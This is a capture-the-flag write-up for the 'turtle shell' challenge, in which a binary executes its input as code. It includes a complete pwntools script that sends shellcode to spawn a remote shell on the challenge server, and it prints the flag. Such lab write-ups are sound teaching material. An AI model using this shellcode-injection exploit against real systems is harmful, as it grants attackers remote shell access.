


# turtle shell

## Problem

<details>

<summary>Description</summary>

A turtle without it's shell is a sad sight to see

Connect via: `nc turtle.sdc.tf 1337`

</details>

## Solution

Its a simple and straight forward shellcode injection, it can be implied from the name and the fact that none of the protection is enabled.

<figure><figcaption></figcaption></figure>

The program simply takes our input and runs it as code, we can use pwntools's shellcraft to spawn a shell

<figure><figcaption><p>decompiled main</p></figcaption></figure>


```python
#!user/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './turtle-shell'
context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

local = False
if(local):
    io = process(exe)
else:
    io = remote('turtle.sdc.tf', 1337)

# =========================================================
#                         ADDRESSES
# =========================================================


# =========================================================
#                         EXPLOITS
# =========================================================

shellcode = asm(shellcraft.sh())

# flattening  payload here
payload = flat([
    shellcode,
])

io.sendline(payload)

io.interactive()
```


## Flag

> _**sdctf{w0w\_y0u\_m4d3\_7h3\_7urT13\_c0m3\_0u7\_0f\_1t5\_5h3l1}**_
